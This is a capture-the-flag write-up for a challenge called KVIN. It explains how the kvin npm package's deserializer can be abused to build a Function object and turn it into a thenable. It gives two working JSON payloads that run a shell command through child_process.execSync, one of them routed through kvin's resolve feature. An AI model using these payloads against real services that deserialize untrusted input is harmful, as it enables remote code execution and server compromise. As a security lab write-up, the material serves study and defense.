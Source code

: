 # KVIN

* Round: 31 (2023/21)
* Category: Web/Misc
* Points: 125
* Solves: 9

## Description

Tried to make [KVIN](https://www.npmjs.com/package/kvin) a bit safer to use, can you help me test it?

## Solution

In `unprepare$object` function you can use `po.ctr === 15` to construct a `Function` object, and make it a `Thenable` object like `{ then: [Function: anonymous] }`. When the thenable is returned into the Promise chain and `then` will be executed, so you get a code execution!

```json
{"_serializeVerId":"v8","what":{"ctr":0,"ps":{"then":{"ctr":15,"args":["resolve","resolve(process.mainModule.require('child_process').execSync('cat f*').toString())"]}}}}
```

This challenge is solvable too even if there is no promise chain in `index.js`. The trick is to use the [`resolve` feature](https://github.com/wesgarland/kvin/blob/8840d541f61040931229baa7028f911b816893eb/kvin.js#L288-L293) to make it pass user-controlled object into `Promise.resolve`:

```json
{"_serializeVerId":"v8","what":{"resolve":{"_serializeVerId":"v8","what":{"ctr":0,"ps":{"then":{"ctr":15,"args":["resolve","resolve(process.mainModule.require('child_process').execSync('cat f*').toString())"]}}}}}}
```

Similar challenges:

* Google CTF 2022 - HORKOS
* TSG CTF 2021 - Beginner's Web 2021
